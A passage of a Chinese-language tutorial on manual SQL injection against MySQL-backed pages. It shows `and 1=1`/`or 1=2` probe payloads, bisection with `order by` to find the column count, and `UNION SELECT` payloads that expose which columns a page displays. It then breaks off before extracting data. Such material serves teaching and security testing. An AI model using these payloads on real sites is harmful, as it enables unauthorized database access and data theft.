 这样可以看出直接把后面的语句都给注释掉了，一般实战用注释比较多。

## and 验证
 
当然这里 and 验证和 or 验证都可以，二者区别不大:  **`页面返回正常`**  

```sql
?id=1' and 1=1 --+ 
?id=1' or 1=2 --+
```
 
###  页面返回异常 

```sql
?id=1' and 1=2 --+
?id=1' or 1=1 --+
```
 
如果发现一开始页面先是正常然后是异常的话，说明页面啊存在注入。当然这里是最基本的判断方法，到后面盲注的时候是用延时函数来观察页面的返回时间的。

## 查询字段数目
 
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目，这样效率会很高，下面假设用 order by 来判断一个未知字段的注入。
 
?id=1′ order by 1 –+ 此时页面正常，继续换更大的数字测试?id=1′ order by 10 –+ 此时页面返回错误，更换小的数字测试?id=1′ order by 5 –+ 此时页面依然报错，继续缩小数值测试?id=1′ order by 3 –+ 此时页面返回正常，更换大的数字测试?id=1′ order by 4 –+ 此时页面返回错误，3正常，4错误，说明字段数目就是 3
 
通过数学的对半查找，确定字段数目。

## 联合查询
 
`UNION SELECT` 联合查询，手工注入经典语句，作用是在后面通过 `UNION` 把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是: `3` ,那么正规的语句如下: 

```
?id=1' UNION SELECT 1,2,3 --+
```
 
这里页面是不会报错的，此时我们带入数据库的语句为:
 
SELECT 1,2,3 这段语句没有任何意义，所以页面按返回正常。
 


![][1] 
 
但是为了信息收集，我们得知道当前这个页面里面的值，调用的具体是数据库中的哪个字段才可以，可以故意构造一个错误的语句，来爆出错误的字段：
 
id=-1′ UNION SELECT 1,2,3 –+ 通过id=-1 一个负数不存在的id值来触发报错id=1′ and 1=2 UNION SELECT 1,2,3 –+ 通过and 1=2 语句来触发报错id=1′ or 1=1 UNION SELECT 1,2,3 –+ 通过or 1=1 语句来触发报错
 


![][2] 
 
可以看出爆出了具体的字段号了，这里爆出了 `2` 和 `3` 进MySQL数据库看下这个表的字段结构: 


[18]: http://www.sqlsec.com/2018/01/concat.html
[0]: https://img2.tuicool.com/mQFVNvU.jpg
[1]: https://img0.tuicool.com/eUJZva3.jpg
[2]: https://img0.tuicool.com/z2ERNzA.jpg
[3]: https://img2.tuicool.com/QbuQjeJ.jpg
[4]: https://img2.tuicool.com/NVNvMbm.jpg
[5]: https://img2.tuicool.com/u2Evqar.jpg
[6]: https://img0.tuicool.com/aeIbeai.jpg
[7]: https://img2.tuicool.com/26RzUbN.jpg
[8]: https://img0.tuicool.com/VzQ7ruj.jpg
[9]: https://img1.tuicool.com/bAjqeqn.jpg
[10]: https://img2.tuicool.com/eA7JFjR.gif
[11]: https://img2.tuicool.com/m2YBRza.jpg
[12]: https://img0.tuicool.com/iaEvy2i.jpg
[13]: https://img2.tuicool.com/eEV7Rnb.jpg
[14]: https://img2.tuicool.com/q2M7fyE.jpg
[15]: https://img1.tuicool.com/MRj6n2i.jpg
[16]: https://img2.tuicool.com/FjQFbmM.jpg
[17]: https://img1.tuicool.com/NjaqUnj.jpg